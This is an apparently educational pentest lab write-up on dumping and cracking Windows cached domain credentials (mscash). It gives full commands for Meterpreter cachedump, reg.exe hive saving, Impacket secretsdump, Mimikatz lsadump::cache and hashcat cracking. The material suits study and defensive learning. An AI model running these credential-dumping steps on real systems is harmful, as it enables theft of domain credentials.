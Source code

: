 # Dumping and Cracking mscash - Cached Domain Credentials

This lab focuses on dumping and cracking mscash hashes after SYSTEM level privileges has been obtained on a compromised machine.

`Mscash` is a Microsoft hashing algorithm that is used for storing cached domain credentials locally on a system after a successful logon. It's worth noting that cached credentials do not expire. Domain credentials are cached on a local system so that domain members can logon to the machine even if the DC is down. It's worth noting that mscash hash is not passable - i.e PTH attacks will not work.

## Execution

### Meterpreter

Note that in meterpreter session, hashdump only dumps the local SAM account hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
hashdump
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-59-09.png)

To dump cached domain credentials in mscash format, use a post exploitation module `cachedump`:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
getuid
getsystem
use post/windows/gather/cachedump
run
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-53-09.png)

### Secretsdump

Impacket's secrestdump tool allows us to dump all the credentials that are stored in registry hives SAM, SECURITY and SYSTEM, so firstly, we need to write those out:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-56-47.png)

Once the hives are retrieved, they can can be pulled back to kali linux to extract the hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-15-57-28.png)

### Mimikatz

```text
lsadump::cache
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-32-15.png)

## Cracking mscash / mscache with HashCat

To crack mscache with hashcat, it should be in the following format:

```csharp
$DCC2$10240#username#hash
```

Meterpreter's cachedump module's output cannot be used in hashcat directly, but it's easy to do it.

Below shows the original output format from cachedump and the format accepted by hashcat:

```csharp
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 hashes.txt
```

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-54-29.png)

Let's try cracking it with hashchat now:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-02-02-16-57-55.png)

## Where Are Domain Credentials Cached

This can be seen via regedit \(running with SYSTEM privileges\) in the following key:

```text
HKEY_LOCAL_MACHINE\SECURITY\Cache
```

`NL$1..10` are the cached hashes for 10 previously logged users:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-03-15.png)

By nulling out the Data fields one could remove the credentials from cache. Once cached credentials are removed, if no DC is present, a user trying to authenticate to the system will see:

![](../../.gitbook/assets/screenshot-from-2019-02-02-17-10-00.png)

## References

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}

{% embed url="https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/" %}





